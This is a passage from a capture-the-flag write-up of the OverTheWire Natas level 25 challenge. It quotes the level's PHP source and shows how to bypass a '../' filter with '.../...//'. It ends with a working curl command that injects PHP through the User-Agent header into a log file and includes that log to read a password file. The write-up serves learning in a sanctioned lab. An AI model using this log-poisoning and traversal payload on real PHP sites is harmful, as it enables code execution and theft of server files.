 ~~~~
// dont let ppl steal our passwords
if(strstr($filename,"natas_webpass")){
    logRequest("Illegal file access detected! Aborting!");
    exit(-1);
}
~~~~

They thought of that. We have to get very clever if we want to beat this...

What else do we have control over...

~~~~
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
~~~~

Hehehe... I spy an unfiltered `$_SERVER['HTTP_USER_AGENT'];`! We can put whatever we want in that header. But what would allow us to use this function as an attack vector?

Well, let's keep in mind our end goal: We want to read the `/etc/natas_webpass/natas26` file.

Now, let's keep in mind our limitation: We can't read `natas_webpass` from this script.

Hm... crazy idea, but what if we make a new script that can? It's writing whatever we give it for our User Agent header to a file, so we could throw some PHP in there for it to run, like `<?php include "/etc/natas_webpass/natas26"; ?>` But then, the question of "how to run it" arises...

There is an `include` statement up towards the middle, but that's behind the `safeinclude` function which prevents directory traversal.

We're stuck!

Wait wait wait... I just noticed something: they're replacing `../` with nothing... so what would happen if we applied that to a string like `.../...//`? Here's what it would remove: `.[../].[../]/`, leaving us with `../`

Haha! We *can* get past the directory traversal prevention! We just use `.../...//` instead of just `../`

Alright, I think we've got everything to carry out an attack. Let's get `<?php include "/etc/natas_webpass/natas26"; ?>` written to a log file, and set that log file to the `lang` variable so we can include it.

~~~~
curl --user natas25:[censored] --cookie PHPSESSID=6vitbapso7naujh44uno1t2so6 --header "User-Agent: <?php include '/etc/natas_webpass/natas26'; ?>" "http://natas25.natas.labs.overthewire.org?lang=.../...//.../...//.../...//.../...//.../...//var/www/natas/natas25/logs/natas25_6vitbapso7naujh44uno1t2so6.log"
~~~~

THAT is one heck of a cURL command. Should work, though. Let's try it.
